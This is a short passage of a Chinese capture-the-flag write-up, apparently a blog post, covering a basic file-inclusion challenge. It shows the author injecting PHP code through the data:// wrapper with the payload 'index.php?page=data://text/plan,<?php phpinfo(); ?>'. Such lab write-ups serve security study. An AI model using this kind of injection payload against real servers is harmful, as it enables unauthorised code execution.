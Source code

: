 ![upload successful](/images/pasted-900.png)
成功拿到key

# 34223 基础题目三：文件包含

测试一下data协议成功
`index.php?page=data://text/plan,<?php phpinfo(); ?>`
![upload successful](/images/pasted-901.png)
